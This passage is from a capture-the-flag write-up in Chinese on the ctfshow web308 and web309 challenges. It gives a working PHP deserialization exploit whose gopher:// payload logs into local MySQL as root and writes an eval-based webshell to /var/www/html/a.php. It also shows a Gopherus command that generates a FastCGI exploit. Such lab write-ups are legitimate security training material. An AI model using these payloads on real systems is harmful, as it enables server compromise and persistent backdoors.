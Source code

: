 ```
https://github.com/tarunkant/Gopherus
```

exp:

```php
<?php
class config{
	public $update_url = 'gopher://127.0.0.1:3306/_%a3%00%00%01%85%a6%ff%01%00%00%00%01%21%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%72%6f%6f%74%00%00%6d%79%73%71%6c%5f%6e%61%74%69%76%65%5f%70%61%73%73%77%6f%72%64%00%66%03%5f%6f%73%05%4c%69%6e%75%78%0c%5f%63%6c%69%65%6e%74%5f%6e%61%6d%65%08%6c%69%62%6d%79%73%71%6c%04%5f%70%69%64%05%32%37%32%35%35%0f%5f%63%6c%69%65%6e%74%5f%76%65%72%73%69%6f%6e%06%35%2e%37%2e%32%32%09%5f%70%6c%61%74%66%6f%72%6d%06%78%38%36%5f%36%34%0c%70%72%6f%67%72%61%6d%5f%6e%61%6d%65%05%6d%79%73%71%6c%45%00%00%00%03%73%65%6c%65%63%74%20%22%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%31%5d%29%3b%3f%3e%22%20%69%6e%74%6f%20%6f%75%74%66%69%6c%65%20%22%2f%76%61%72%2f%77%77%77%2f%68%74%6d%6c%2f%61%2e%70%68%70%22%01%00%00%00%01';
}
class dao{
	private $config;
	public function __construct(){
		$this->config=new config();
	}

}
$a=new dao();
echo base64_encode(serialize($a));
?>
```





![image-20210210150404541](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210210150404541.png)



得到 shell.

## web309

> ```
> 需要拿shell，308的方法不行了,mysql 有密码了
> ```

FastCGI是用来提高CGI程序性能的。类似于CGI，**FastCGI也可以说是一种协议**。简单来说就是CGI的优化：对于CGI来说，每一个Web请求PHP都必须重新解析php.ini、重新载入全部扩展，并重新初始化全部数据结构。而使用FastCGI，所有这些都只在进程启动时发生一次。还有一个额外的好处是，持续数据库连接(Persistent database connection)可以工作。

```txt
https://www.anquanke.com/post/id/186186
```

```cmd
python2 gopherus.py --exploit fastcgi
```
